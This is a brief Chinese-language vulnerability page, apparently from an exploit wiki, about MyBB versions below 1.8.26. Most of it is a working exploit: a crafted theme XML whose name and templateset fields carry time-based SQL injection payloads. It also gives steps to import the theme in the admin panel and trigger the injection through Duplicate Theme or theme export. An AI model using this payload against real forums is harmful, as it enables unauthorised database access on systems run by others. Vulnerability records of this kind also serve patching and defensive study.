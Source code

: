 <languages  /> <translate>

影響版本
--------

</translate>

    < 1.8.26

<translate>

漏洞利用
--------

</translate>

<translate> 在後台主題管理處導入構造的惡意xml </translate>

    <?xml version="1.0" encoding="UTF-8"?>
    <theme name="1' and sleep(10) and '" version="1825">
    <properties>
    <templateset>-2' or sleep(0.01) or '</templateset>
    <editortheme><![CDATA[mybb.css]]></editortheme>
    <imgdir><![CDATA[images]]></imgdir>
    <logo><![CDATA[images/logo.png]]></logo>
    <tablespace><![CDATA[5]]></tablespace>
    <borderwidth><![CDATA[0]]></borderwidth>
    <color><![CDATA[]]></color>
    <disporder><![CDATA[a:7:{s:10:"global.css";i:1;s:10:"usercp.css";i:2;s:9:"modcp.css";i:3;s:16:"star_ratings.css";i:4;s:14:"showthread.css";i:5;s:17:"thread_status.css";i:6;s:8:"css3.css";i:7;}]]></disporder>
    </properties>
    <stylesheets>
    </stylesheets>
    <templates>
    </templates>
    </theme>

<translate> 點擊Duplicate Theme,抓包，成功延时注入（導出主題也會存在該注入） </translate>